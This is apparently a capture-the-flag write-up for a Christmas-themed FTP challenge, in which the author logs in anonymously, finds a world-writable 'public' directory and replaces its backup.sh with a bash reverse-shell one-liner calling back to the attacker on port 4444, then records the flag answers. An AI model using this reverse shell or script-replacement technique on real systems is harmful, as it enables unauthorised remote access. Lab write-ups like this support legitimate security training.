 # Day 9. `[Networking]` Anyone can be Santa
## Intro
>Even Santa has been having to adopt the "work from home" ethic in 2020. To help Santa out, Elf McSkidy and their team created a file server for The Best Festival Company (TBFC) that uses the FTP protocol. However, an attacker was able to hack this new server. Your mission, should you choose to accept it, is to understand how this hack occurred and to retrace the steps of the attacker.

## Tasks

### 1. Name the directory on the FTP server that has data accessible by the "anonymous" user `[******]`
```terminal
martin@box$ ftp 10.10.000.000
Connected to 10.10.000.000.
220 Welcome to the TBFC FTP Server!.
Name (10.10.000.000:martin): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.        #This for some reason wouldn't work without passive mode enabled
ftp> ls
227 Entering Passive Mode (10,10,000,000,146,237).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 backups
drwxr-xr-x    2 0        0            4096 Nov 16 15:05 elf_workshops
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 human_resources
drwxrwxrwx    2 65534    65534        4096 Nov 16 19:35 public
226 Directory send OK.
ftp> cd public
250 Directory successfully changed.
ftp> ls
227 Entering Passive Mode (10,10,000,000,114,172).
150 Here comes the directory listing.
-rwxr-xr-x    1 111      113           341 Nov 16 19:34 backup.sh
-rw-rw-rw-    1 111      113            24 Nov 16 19:35 shoppinglist.txt
226 Directory send OK.

```
Answer = `public`

### 2. What script gets executed within this directory? `[******.**]`

As we can see from above:

Answer = `backup.sh`

### 3. What movie did Santa have on his Christmas shopping list? `[*** ***** *******]`

Unfortunately, due to the server requiring passive mode on in able to do anything, this stopped me from being able to pull anything off of the server via the `ftp` command. I decided just to go ahead and download an ftp client to continue, and downloaded both `shoppinglist.txt` and `backup.sh`.

Answer = `The Polar Express`

### 4. Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt! `[***{*********************}]`

```bash
$ nano backup.sh
-------------------------------------------
#!/bin/bash

bash -i >& /dev/tcp/10.10.000.000/4444 0>&1
```


I just followed the procedure for a standard reverse shell in bash. Unfortunately this did not work on my own machine or a server I have access to in Paris for some reason. So I had to use their own attackbox.

Answer = `THM{even_you_can_be_santa}`

---
```
Tags:
    ftp
    netcat
    reverse shell
```